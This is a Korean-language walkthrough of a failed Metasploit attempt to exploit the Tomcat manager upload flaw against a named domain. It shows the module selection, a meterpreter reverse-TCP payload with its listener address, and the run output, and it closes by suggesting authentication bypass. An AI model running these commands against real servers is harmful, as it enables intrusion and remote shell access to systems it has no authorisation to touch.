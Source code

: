 # Metasploit 해킹 시도 분석

## Metasploit 버전 및 기능

       =[ metasploit v6.4.18-dev                          ]
+ -- --=[ 2437 exploits - 1255 auxiliary - 429 post       ]
+ -- --=[ 1468 payloads - 47 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/
```

- **Metasploit 버전**: 현재 사용하는 Metasploit 버전은 `6.4.18-dev`입니다.
- **Metasploit의 주요 기능**:
  - `2437`개의 **익스플로잇** (취약점 공격 모듈)
  - `1255`개의 **보조 모듈** (보조 작업을 위한 모듈)
  - `429`개의 **포스트 모듈** (공격 후 작업)
  - `1468`개의 **페이로드** (공격 후 실행할 코드)
  - `47`개의 **인코더** (페이로드 변환 도구)
  - `9`개의 **회피 모듈** (보안 시스템 회피 도구)

Metasploit을 활용한 해킹 시도는 다양한 공격 모듈과 도구를 통해 이루어집니다.

## 1. Exploit 모듈 선택

```
msf6 > use exploit/multi/http/tomcat_mgr_upload
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
```

- **Exploit 모듈 선택**: `tomcat_mgr_upload` 모듈을 사용했습니다. 이 모듈은 Tomcat 웹 서버의 관리자 페이지에 취약점이 있을 때 사용되는 업로드 취약점을 이용합니다.
- **페이로드**: 페이로드가 설정되지 않아서 `java/meterpreter/reverse_tcp`로 기본 설정되었습니다. 이 페이로드는 원격에서 제어할 수 있는 쉘을 얻게 됩니다.

## 2. RHOST 설정

```
msf6 exploit(multi/http/tomcat_mgr_upload) > set RHOST http://fossilfuel.site/
RHOST => http://fossilfuel.site/
```

- **RHOST 설정**: 공격할 대상 서버의 주소를 `http://fossilfuel.site/`로 설정했습니다. 이 주소는 공격자가 타겟으로 삼는 서버입니다.

## 3. 공격 시도

```
msf6 exploit(multi/http/tomcat_mgr_upload) > exploit

[*] Started reverse TCP handler on 192.168.10.128:4444
[*] Retrieving session ID and CSRF token...
[-] Exploit aborted due to failure: unknown: Unable to access the Tomcat Manager
[*] Exploit completed, but no session was created.
```

- **공격 시도**: `exploit` 명령어를 입력하여 공격을 실행했습니다.
  - **Reverse TCP 핸들러 시작**: `192.168.10.128:4444`에서 리버스 TCP 핸들러가 시작되었으며, 공격자가 리버스 쉘을 받을 준비가 되었습니다.
  - **세션 ID와 CSRF 토큰 가져오기**: Tomcat 관리자 페이지의 세션 ID와 CSRF 토큰을 가져오려고 했습니다.
  - **실패**: `Unable to access the Tomcat Manager`라는 오류가 발생했습니다. 이는 Tomcat 관리자 페이지에 접근할 수 없음을 의미합니다. 인증 문제일 수 있으며, 관리자 페이지가 외부에서 접근 불가능하도록 설정되어 있을 가능성도 있습니다.
  - **공격 종료**: `Exploit completed, but no session was created.` 공격은 종료되었고, 성공적인 세션 연결은 이루어지지 않았습니다.

## 4. 공격 실패 분석

- **Tomcat 관리자 접근 실패**: 이 오류 메시지는 공격자가 타겟 서버의 Tomcat 관리자 페이지에 접근할 수 없음을 의미합니다. 원인은 여러 가지일 수 있습니다:
  - **인증 문제**: Tomcat 관리 페이지에 로그인해야 하는 경우, 올바른 자격 증명이 제공되지 않은 상태에서 공격이 시도되었을 수 있습니다.
  - **IP 접근 제한**: Tomcat 관리자 페이지는 특정 IP에서만 접근할 수 있도록 제한될 수 있습니다.
  - **서버 방화벽 또는 보안 설정**: 서버의 보안 설정이 강화되어 외부에서의 접속을 차단했을 가능성도 있습니다.

## 결론

- **공격이 실패한 이유**는 `Tomcat Manager`에 접근할 수 없었기 때문입니다. 따라서 취약점 공격이 제대로 실행되지 않았습니다. 만약 이 취약점을 이용하고자 한다면, 관리자 페이지에 대한 접근을 허용하는 방법을 찾거나, 인증 우회 방법을 적용해야 할 필요가 있습니다.
```

